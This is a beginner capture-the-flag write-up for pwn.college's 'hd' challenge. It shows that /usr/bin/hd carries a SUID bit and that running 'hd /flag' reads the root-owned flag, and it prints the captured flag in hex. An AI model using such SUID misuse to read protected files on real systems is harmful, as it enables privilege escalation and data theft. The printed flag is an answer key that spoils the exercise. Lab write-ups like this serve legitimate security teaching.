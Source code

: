 # Challenge Name: hd
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/hd`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/hd
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/hd
```

-The `s` in `-rws` indicates it's a SUID binary.
-`hd` runs with **root privileges**.

## 🚀 Exploitation

The `hd` command is a shortcut for hexdump -C, used to view file contents in hexadecimal and ASCII format side-by-side.So this can simply reveal flag.

```bash
hd /flag
```

Output:
```
00000000  70 77 6e 2e 63 6f 6c 6c  65 67 65 7b 34 61 50 42  |pwn.college{4aPB|
00000010  31 35 6d 6e 64 42 4d 42  75 54 55 4e 35 39 59 2d  |15mndBMBuTUN59Y-|
00000020  2d 43 70 69 53 53 69 2e  64 52 54 4e 78 77 53 4d  |-CpiSSi.dRTNxwSM|
00000030  30 49 7a 4d 79 45 7a 57  7d 0a                    |0IzMyEzW}.|
0000003a
```

      
